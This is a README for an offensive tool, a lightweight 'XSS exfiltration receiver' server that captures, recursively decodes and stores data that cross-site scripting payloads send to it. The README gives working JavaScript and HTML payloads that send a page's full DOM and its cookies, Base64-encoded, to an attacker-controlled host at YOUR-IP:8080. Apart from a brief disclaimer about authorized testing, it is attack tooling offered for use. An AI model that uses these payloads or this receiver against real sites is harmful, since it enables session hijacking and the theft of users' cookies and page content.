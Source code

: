 

# 🕵️ XSS Exfiltration Receiver ( Lite Edition#)

A lightweight HTTP server to capture, decode, and store exfiltrated data from XSS payloads via URL query parameters or POST bodies. 
Supports recursive Base64 and URL decoding, automatic HTML detection, and file storage.

## 📦 Contents

```

xss\_receiver/
├── receiver__.py       # Python3 receiver server (GET/POST + decoder)
├── decoded\_html/    # Output folder for saved HTML payloads
└── README.md        # This file

````

---

## 🚀 Getting Started

### 1. Start the Receiver

```bash
python3 receiver__.py --port 8080 --show
````

| Flag     | Description                                    |
| -------- | ---------------------------------------------- |
| `--port` | Port to listen on (default: `80`)              |
| `--show` | Display decoded HTML in terminal (if detected) |

---

### 2. Use with a Payload

You can exfiltrate Base64-encoded content to this server via:

#### ➤ GET Example

```html
<img src="http://YOUR-IP:8080/?data=BASE64_ENCODED_PAYLOAD">
```

#### ➤ POST Example

```javascript
fetch("http://YOUR-IP:8080/", {
  method: "POST",
  body: "data=BASE64_ENCODED_PAYLOAD"
});
```

---

## 💡 Features

* 🔁 Recursive decoding of Base64 and URL-encoded strings (up to 5 layers)
* 🧠 HTML auto-detection via `<html>` / `<!doctype>` tags
* 💾 Saves decoded HTML to `decoded_html/` folder with timestamped filenames
* 👁️ Optional real-time display of decoded payloads
* ✅ Supports both `GET` (query param) and `POST` (form body) exfiltration

---

## 🗂️ Output

| Output Type           | Description                              |
| --------------------- | ---------------------------------------- |
| `decoded_html/*.html` | Decoded HTML payloads (auto-detected)    |
| (stdout)              | Decoding layers, final preview, warnings |

---

## 🧪 Example Payloads

```javascript
// DOM Exfiltration
fetch("http://YOUR-IP:8080/?data=" + btoa(document.documentElement.outerHTML));

// Cookie Theft
fetch("http://YOUR-IP:8080/?data=" + btoa(document.cookie));
```

---

## 🔐 Security Notice

This tool is intended for **authorized testing and education only**. Do not use against systems without **explicit written permission**. Follow ethical guidelines and all legal regulations in your jurisdiction.

---

## 🛠 TODO (Optional Future Features)

* Add JSON output support (e.g., `--json-log`)
* Add IP filtering and allowlists
* Add Slack/Webhook alerts
* Add live HTML replay view in browser

---

## 👨‍💻 Author Notes

This is a simplified version of a more feature-rich receiver/payload suite. 
Designed to be easy to run and inspect in minimal environments. For more advanced use cases, see the full version (coming soon).

Built with ❤️ by security researchers, for security researchers.



